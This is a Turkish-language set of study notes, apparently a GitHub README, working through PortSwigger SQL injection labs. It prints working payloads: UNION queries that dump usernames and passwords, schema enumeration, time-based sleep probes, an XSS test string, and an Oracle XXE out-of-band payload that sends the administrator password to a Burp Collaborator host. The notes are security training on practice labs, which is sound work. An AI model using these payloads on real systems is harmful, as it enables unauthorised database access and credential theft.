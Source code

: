 <h1 align="center">PortSwigger SQL Labları ve Çözümleri</h1>

Bu link üzerinden PortSwigger'ın hazırladığı [*SQLi Cheat Sheet*](https://portswigger.net/web-security/sql-injection/cheat-sheet)'e ulaşabilirsiniz.

## Lab: SQL injection UNION attack, retrieving data from other tables
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/b8f35545-0a63-4664-86a6-34e50518321a)
- Buna bakarak: SQL query’sinden dönen datanın ekranda print edilmesi senin için bir zaafiyet durumunda UNION ile daha kolay çözebileceğin anlamına gelir.
- MYSQL ve Postgresql de karşılaşılan tırnak hadisesi.
```
...?category=Accessories'
```
Internel Server Error görmen zaafiyet olması anlamına gelmiyor.
```
...?category=Accessories''
```
- 2 tane tırnak attığında errorun ortadan kalkıyor olması DB e giden syntax erroru çözdün demek oluyor yani SQLi var burda.
	- Accessories' and '1'='1 ile de çözebilirsin.
- 'Accessories' and '1'='1' bunu bu şekilde çözmektense,
- 'Accessories' and 1=1--' buna dönüştürürsen eğer # şekilnde mi --(Postgres için command line işareti) şeklinde mi çalışıyor ondan emin olursun. 
- Bundan emin olduktan sonra UNION ile ilerleyebilirsin.
```sql
Accessories' UNION SELECT null,null--
	UNION kullanmak için kolon sayısı aynı olması gerekiyor o yüzden 2 tane null yetti

mehmetince' UNION SELECT null,null--
	diğer veriler gelmemesi için

UNION SELECT username,password FROM users--
	username ve password kısmı lab girişinde söyleniyor.
```
## Lab: SWL injection UNION attack, retrieving multiple values in a single column
```sql
SELECT a,b,c,d FROM x WHERE y = 'Accessories'
```
- Eğer gelen datanın 2 kolonundan sadece tek bir kolonun datasını yazıyor ise;
```sql
UNION SELECT null,'metmet' FROM users--
```
#### kolonların type ları aynı olması gerekiyor burası çokomelli (Mysql istemez, Postgresql ister)
```sql
UNION SELECT null,CONCAT(username,':::MDISEC:::',password) FROM users--
```
- username ve password kolonlarını birleştiriyor arasına da :::MDISEC::: yazıyor
## Lab: SQL injection attack, querying the database type and version on Oracle
```sql
...accessories' UNION SELECT null,null FROM dual--

...accessories' UNION SELECT null,'mehmet' FROM dual--
	hangi kolonu alıyor onu anlamak için.

...accessories' UNION SELECT null,banner FROM v$version--
	SELECT banner FROM v$version şeklinde çalışıyor
```
- Bu datayı ekrana print ederken encoding yapmıyorsa XSS de olabilir. Gelen datayı değiştir, manipüle et.
```sql
UNION SELECT null,<svg onload=alert(1)> FROM v$version--
```
## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft [*Lab linki*](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
- Mysqlde -- boşluk ve yanına bir şey yazman lazım # yerine
```mysql
?category=MDISEC' UNION SELECT null,@@version#
	# yerine %23
```
## Lab: SQL injection attack, listing the database contents on non-Oracle databases [*Lab Linki*](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
```mysql
...?category=MDISEC' UNION SELECT 1,2 -- aasf
```
- hangi tip DB olduğunu öğrenmek için öncelikle böyle yaptık. 1,2 yazarak data tipleri farklı olan bir tabloymuş gibi istek attık Postgresql aynı istediği için hata verdi
```mysql
?category=MDISEC' UNION SELECT null,null -- aasf
```
- yazınca düzeldi
```mysql
?category=MDISEC' UNION SELECT null,table_name FROM information_schema.tables-- aasf''
?category=MDISEC' UNION SELECT null,table_name FROM information_schema.tables WHERE table_schema=current_schema()-- aasf
```
- sadece bizim şemaya ait tablo isimlerini getirmek istiyoruz
```mysql
?category=MDISEC' UNION SELECT null,column_name FROM information_schema.cloumns WHERE table_name='users_yhfrcv'--
```
- username ve şifre kolonlarını getirdi bize
```
MDISEC' UNION SELECT null,concat(username_ktovtr, ':::MDISEC:::', password_sgugwv) FROM users_yhfrcv--
```
## Lab: Blind SQL injection with out-of-band data exfiltration
1) category=Lifestyle'
2) category=Lifestyle''
  - Data gelmedi iki şekilde de sıkıntı var aga burda değil demekki


- ürünler üstünde deneyelim
1) productid=9'
	- hata geldi
2) productid=9''
	- yine hata geldi burada da değil o zaman
  - Bu kategorilerde data gelip gittiği için Blind değil, Error görmediğimiz için de error based hiç değil.
1) category=Lifestyle"
2) category=Lifestyle'--
	- olmuyor...
- Burp Suite başvurma zamanı
- Cookie kısmında TrackingId ' yapmayı denedi olmadı. Data eksilip artmadı.
	- TrackingId olsaydı, SQL INSERT sorgusunda sıkıntı olmuş olurdu
	- SessionId kısmına da aynısını yaptı yine olmadı.
  - Hala TrackingId den şüphelenmeye devam ediyor. Time Based payloadlar deniyor.
```sql
' -sleep(5)-'
'||pg_sleep(5)||'
```
- Şöyle bir şey de olabilir : 
  - Senden aldığı isteği direkt cevabını veriyor olabilir, arka tarafta da Background Job başlatır ve senden aldığı parametre ile iş yapar.
  - DB aldığı veriyi Queue'ya yazıyor onu da Worker'a veriyor. Burda Time Based SQLi işe yaramaz. SQLi çalışıyor ama arkadaki iş bekliyor.
- Dışarıyla iletişim kurmayı sağlatmak gerekiyor. Cookieleri noktalı virgüle(;) göre alıyor
  - TrackingId=ljashfuashuıeasjf';SELECT; session=asjfhasfhasoıjasd15811he281uıhur
	- yapsan bile noktalı virgüle(;) göre ayırdığı için cookieleri, bunları arkada nasıl ayıracak belli değil.
#### Lab sayfasında asenkron yazıyormuş :) Bu tür yapıları gerçek hayatta da exploit etmek zor whitebox testlerde rahat çıkartabiliyorsun.
##### Gerçek hayat senaryosunda şöyle bir şey gerçek olmaz : SELECT * FROM x WHERE y = ljashfuashuıeasjf
- INSERT sorgusu görürsün databasede. INSERT INTO X (a,b,c) VALUES ('','','ljashfuashuıeasjf')
- sleepi denemesinin sebebi de INSERT sorgusu varsa sleep eder diye.
```sql
INSERT INTO X (a,b,c) VALUES ('aaaaa'); ,'','ljashfuashuıeasjf')
```
- Bu kısım sıkıntı çıkartmaya başlar ; yüzünden
```sql
INSERT INTO X (a,b,c) VALUES ('','','A'||(SELECT)||'C')
```
- SubSELECT sorgusu atabiliyor muyuz onu kontrol ediyor. ORACLE olduğuna karar verdi
- Burp collaborator açtı en sol üstteki Burp sekmesinden. Asenkron yapı olduğu için başka bir websitesine istek attırtıyorsun zorla.
```sql
INSERT INTO X (a,b,c) VALUES ('','','A'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %25remote;]>'),
'/l') FROM dual)||'C')
```
- Bu şekilde de olur
```sql
INSERT INTO X (a,b,c) VALUES ('','','A'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://askfjgasjıs.BURP-COLLABORATOR-SUBDOMAIN/"'||(SELECT password FROM users WHERE username = 'administrator')||'> %25remote;]>'),
'/l') FROM dual)||'C')
```
- İsteği yolladıktan sonra Poll now tuşuna bas collaborator dan.

## Ekstra Not:
SQLmapte : * koyarak parametre vermiş oluyorsun
x.com/api/user/1*/get
